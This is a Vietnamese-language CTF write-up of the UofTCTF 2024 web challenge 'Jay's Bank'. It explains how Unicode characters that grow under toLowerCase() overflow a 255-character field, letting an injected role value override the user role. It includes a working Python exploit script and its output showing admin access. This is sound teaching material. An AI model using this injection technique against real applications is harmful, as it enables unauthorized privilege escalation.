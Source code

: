 ```yaml
---
title: "UofTCTF 2024"
layout: single
excerpt: "January 13, 2024 12:00 PM EST to January 14, 2024 11:59 PM EST 💻 "
header:
show_date: true
classes: wide
header:
  teaser: "https://hackmd.io/_uploads/BJHemAHta.png"
  teaser_home_page: true
  icon: "https://hackmd.io/_uploads/By3gJwG0h.png"
categories:
  - CTF
tags:
  - CTF
  - Vietnamese
---
```


<p align="center">
<img src="https://hackmd.io/_uploads/BJHemAHta.png">
</p>


# WEB challs
## Jay's Bank - 499 point

### Description
```
My bank is still in pre-alpha-alpha-alpha stage, but I'm sure it's secure enough to keep all of your information safe.

Author: SteakEnthusiast

http://34.123.200.191/

```

source code [here](https://github.com/TaiPhung217/CTF_writeup/blob/main/2024/uofTCTF2024/jays-bank.zip)

### Solution

Giao diện trang web cung cấp như sau: 

![Alt text](../images/UofTCTF_2024/image.png)

Vì challenge này cung cấp source code nên ta sẽ thực hiện review source trước.

Trong `CTF/uoftctf/jays-bank/routes/index.js`
Đọc đoạn code sau có thể thấy để có thể lấy được FLAG ta cần một tài khoản với `role:admin` 

![Alt text](../images/UofTCTF_2024/image-1.png)

Nhưng mặc định, khi người dùng thực hiện update profile sẽ add thêm một `role:user`

![Alt text](../images/UofTCTF_2024/image-3.png)

Kiểm tra trong database

![Alt text](../images/UofTCTF_2024/image-2.png)

Phân tích một chút trong hàm `router.put("/profile", jwtAuth, async (req, res)` trong index.js
Lỗ hổng trong thử thách này xuất phát từ vị trí này 

![Alt text](../images/UofTCTF_2024/image-4.png)

app thực hiện lấy các thông tin `username, phone, credit_card, secret_question, secret_answer` và add thêm một `role:user`. Trong đó gọi tới hai hàm `updateData` để cập nhật data user vào database

![Alt text](../images/UofTCTF_2024/image-5.png)

và hàm `convert` nhận vào một đối tượng (object) `o` và trả về một chuỗi JSON được tạo ra từ các cặp khóa-giá trị của đối tượng đó

```js
  convert(o) {
    return `{${Object.entries(o).map(([k, v]) => 
      `"${k}": ${typeof v === "object" && v !== null ? convert(v) : `"${v}"`}`
    ).join(", ")}}`.toLowerCase();
  }
```

Cuối cùng hàm thực hiện chuyển kết quả json về dạng LowerCase() trả về một khối `data` và update data này cho user trong database.

Trong file `init.sql` định nghĩa độ dài tối đa cho trường data này là `255`. 

![Alt text](../images/UofTCTF_2024/image-6.png)

Ý tưởng khai thác:
- Các trường `secret_answer` và `role: "user"` được insert gần nhau, trong đó trường secret_answer có khả năng kiểm soát. Để khai thác thành công, chúng ta cần chèn một chuỗi secret_answer đủ dài vừa đủ để chèn được role mới và xóa bỏ role:user cũ , từ đó ghi đè lên một trường role khác với giá trị là `admin`.

- Trước đó, `secret_answer` và `secret_question` cũng phải vượt qua các điều kiện check sao cho không vượt quá 45 ký tự bằng cách sử dụng các ký tự Unicode đặc biệt như `İ` có thể làm tăng kích thước khi đi qua hàm `toLowerCase()`

```
Có một số ký tự đặc biệt trong JavaScript

Đối với toUpperCase():
Các ký tự “ı” và “ſ” được toUpperCase xử lý và kết quả là “I” và “S”

Đối với toLowerCase():
Ký tự “K” được toLowerCase xử lý và kết quả là “k” (K này không phải là K)
```

### Script
```python
import requests

url = "http://127.0.0.1:3000/"

session = requests.session()

session.post(url + 'register', json={"password": "Abc@123!@#", "username": "abc9092909078"})

session.post(url + 'login', json={"username":"abc9092909078","password":"Abc@123!@#"})

session.put(url + 'profile', json={"phone":"1234567890","credit_card":"1234567890987654","secret_question":"İİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİ","secret_answer":"İİİİİİİİİİİİİİİİİİİİİİİİ\",\"role\":\"admin\"}","current_password":"Abc@123!@#"})

res = session.get(url + 'dashboard')

print(res.text)
```

Result:
```
|_>kali: python 1.py

<!DOCTYPE html>
<html>
<head>
    <title>Dashboard - Jay's Bank</title>
    <link rel="stylesheet" href="/css/dashboard.css">
</head>
<body>
    <div class="container">
        <nav>
            <ul>
                <li><a href="/">Home</a></li>
                <li><a href="/profile">Edit Profile</a></li>
                <li><a href="/logout">Logout</a></li>
            </ul>
        </nav>
        <h1>Welcome, abc9092909078</h1>
        <p>Your phone number: 1234567890</p>
        <p>Your credit card (last 4 digits): 7654</p>
        
            <p>Since you're the admin, here is your flag: uoftctf{fake_flag}</p>
        
    </div>
</body>
</html>
```